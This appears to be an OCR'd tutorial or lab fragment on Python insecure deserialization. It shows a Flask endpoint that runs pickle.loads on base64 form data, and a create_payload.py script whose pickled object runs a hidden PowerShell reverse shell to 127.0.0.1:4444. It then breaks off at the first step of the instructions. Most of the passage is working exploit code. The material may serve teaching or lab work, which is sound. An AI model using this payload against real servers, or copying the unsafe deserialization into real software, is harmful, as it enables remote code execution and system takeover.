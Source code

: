 ```
    encoded_data = request.form['session_data']
    # Decode the Base64-encoded data
    try:
        serialized_data = base64.b64decode(encoded_data)
        # Insecure deserialization of session data
        session_data = pickle.loads(serialized_data)
        return str(session_data)
    except Exception as e:
        return str(e)

if __name__ == "__main__":
    app.run(debug=True)

```



2. create_payload.py:

```
import pickle
import base64

# Define a malicious class
class Malicious:
    def __reduce__(self):
        import os
        return (os.system, (
            "powershell -NoP -NonI -W Hidden -Exec Bypass -Command "
            "\"$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',4444);"
            "$stream = $client.GetStream();"
            "[byte[]]$bytes = 0..65535|%{0};"
            "while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {"
            "$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);"
            "$sendback = (iex $data 2>&1 | Out-String );"
            "$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';"
            "$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);"
            "$stream.Write($sendbyte, 0, $sendbyte.Length);"
            "$stream.Flush()"
            "};"
            "$client.Close()\""
        ,))

# Serialize the malicious object
malicious_payload = pickle.dumps(Malicious())
encoded_payload = base64.b64encode(malicious_payload).decode('utf-8')
print(encoded_payload)
```


Steps:

1. Run the create_payload.py Script:
